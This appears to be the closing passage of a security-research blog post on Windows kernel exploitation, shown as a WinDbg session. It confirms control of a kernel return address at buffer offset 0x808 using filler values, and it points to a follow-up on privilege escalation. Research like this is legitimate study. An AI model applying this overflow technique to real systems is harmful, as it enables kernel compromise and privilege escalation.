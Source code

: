 ```
1: kd> g
Access violation - code c0000005 (!!! second chance !!!)
fffff800`15fb6952 c3              ret
1: kd> k L5
 # Child-SP          RetAddr               Call Site
00 fffff68f`ded8e788 42424242`42424242     0xfffff800`15fb6952
01 fffff68f`ded8e790 41414141`41414141     0x42424242`42424242
02 fffff68f`ded8e798 41414141`41414141     0x41414141`41414141
03 fffff68f`ded8e7a0 41414141`41414141     0x41414141`41414141
04 fffff68f`ded8e7a8 41414141`41414141     0x41414141`41414141
```

There we have it, control of the return address at a buffer offset of `0x808`, directly after the intended buffer size. In [Part 2](https://plackyhacker.github.io/kernel/race-2) I will attempt to get privilege escalation and restore the thread gracefully.

[Home](https://plackyhacker.github.io) : [Part 2](https://plackyhacker.github.io/kernel/race-2)
